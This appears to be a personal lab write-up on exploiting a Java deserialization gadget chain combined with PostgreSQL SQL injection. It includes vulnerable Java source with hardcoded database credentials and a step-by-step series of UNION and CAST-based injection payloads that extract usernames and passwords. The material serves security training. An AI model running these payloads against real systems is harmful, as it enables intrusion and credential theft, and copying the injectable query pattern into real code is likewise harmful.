# know how deserialization Lab7: Developing a custom gadget chain for Java deserialization expert

```bash
## know how deserialization java postgreesql sql injection
## know how java deserialization postgreesql sql injection
## know how sql injection postrgreesql deserialization java
## know how sql injection java postgree deserialization
```

1. Explore the content. Search and active... we found /backup

![](assets/2023-01-06-12-41-10.png)

2. explore backup 

![](assets/2023-01-06-12-37-05.png)

AccessTokenUser.java 

```java

package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}

```
ProductTemplate.java

```java

package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

3. Ok we change the token for view any errors. we know that the token its a java and we need our script main.java for change the token and view errors. 

We need use our [script](/docs/5.0-know-how-github-cibersecurity/explotation-burpsuite-exploits/Java/Serialization/Main.java) 

![](assets/2023-01-07-01-08-17.png)

futher, we need download to our pc ProductTemplate.java for use in serialization. We can remove any contet and just leave the constructor id , and get the product.

you need try with diferent numbers of columns. you need start with
```bash
' UNION SELECT NULL --
## remember that you need through the main.java script and deserialize the token



```

![](assets/2023-01-07-01-49-45.png)

we need get number of columns.

![](assets/2023-01-07-01-50-23.png)

```bash
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL --
```
Ok, we have 8 columns

![](assets/2023-01-07-01-53-03.png)

Now we can use version(), we need change in any positions of the columns.


![](assets/2023-01-07-01-56-36.png)

```bash
' UNION SELECT NULL, NULL, NULL, NULL, version(), NULL, NULL, NULL --
```

We need that the version will be a integer

```bash
' UNION SELECT NULL, NULL, NULL, NULL, version(), NULL, NULL, NULL --
```

When we start the sql injectio, we need become with ('-- -') and then follow normal steps for sql injection.

```bash
' UNION SELECT NULL, NULL, NULL, NULL, CAST(version() as numeric), NULL, NULL, NULL --
```
![](assets/2023-01-07-02-00-32.png)

Ok, run, then we realice all steps for sql injection on java oracle. Remember using deserialize token in main.java script

```bash

1. ' UNION SELECT NULL,NULL, NULL, CAST(table_name as numeric), NULL, NULL, NULL, NULL FROM information_schema.tables --

2. ' UNION SELECT NULL,NULL, NULL, CAST(table_name as numeric), CAST(column_name as numeric), NULL, NULL, NULL FROM information_schema.tables --

3. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(column_name as numeric), NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' --

4. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(username as numeric), NULL, NULL, NULL FROM users --

5. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(username as numeric), CAST(passsword as numeric), NULL, NULL FROM users --

6. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(password as numeric), NULL, NULL, NULL FROM users --

```
5. trying to get password administrator We view the password in the error 

![](assets/2023-01-07-01-10-00.png)

We view the password in the error 

![](assets/2023-01-07-01-18-41.png)

![](assets/2023-01-07-01-18-23.png)

By carefully studying the source code, you can discover longer gadget chains that potentially allow you to construct high-severity attacks, often including remote code execution.